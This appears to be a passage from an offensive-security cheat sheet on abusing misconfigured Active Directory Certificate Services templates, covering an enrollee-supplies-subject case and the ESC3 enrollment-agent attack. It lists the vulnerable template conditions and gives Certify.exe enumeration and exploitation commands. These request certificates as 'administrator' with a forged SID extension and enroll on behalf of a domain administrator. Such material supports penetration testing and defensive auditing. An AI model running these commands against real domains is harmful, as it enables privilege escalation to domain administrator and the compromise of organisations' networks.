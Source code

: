 Conditions: 

- CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT flag (ENROLLEE_SUPPLIES_SUBJECT) is enabled allowing SAN abuse

- Any Purpose EKU is enabled

   - Any Purpose EKU --> 2.5.29.37.0

   - No EKU

- Enrollment Rights enabled for a user you control


Enumeration:

```
C:\Users\Public\Certify.exe find /enrolleeSuppliesSubject
```

Exploitation:

```
C:\Users\Public\Certify.exe request /ca:CA_NAME /template:TEMPLATE_NAME /altname:administrator /sidextension:DOMAIN_SID-500 /domain:DOMAIN
```

<br>

### <a name="23"></a>2.3 &nbsp;&nbsp; ESC3


Template 1: Provides Enrollment Agent Certificate

- Certificate Request Agent EKU --> 1.3.6.1.4.1.311.20.2.1 is enabled.

- Enrollment Rights are enabled for a user that we control.

Template 2: Allows Enrollment Agent Certificate to use on-behalf-of

- Client Authentication EKU --> 1.3.6.1.5.5.7.3.2 is enabled.

- Application Policy Issuance Requirement with Authorized Signatures Required enabled and set to 1

- Certificate Request Agent EKU enabled.

- Enrollment Rights are enabled for a user that we control.

Enumeration:

```
C:\Tools\Certify.exe find
```

Enroll in template with Certificate Request Agent EKU set (TEMPLATE_NAME) to receive an Enrollment Agent Certificate:

```
C:\Tools\Certify.exe request /ca:CA_NAME /template:TEMPLATE_NAME /user:USER /domain:DOMAIN
```

Use the Enrollment Agent certificate to enroll in a template (TEMPLATE_NAME_2) on behalf of another user:

```
C:\Tools\Certify.exe request /ca:CA_NAME /template:TEMPLATE_NAME_2 /onbehalfof:DOMAIN\administrator /enrollcert:C:\Certs\esc3-enrollmentAgent.pfx /enrollcertpw:PASSWORD /domain:DOMAIN
```
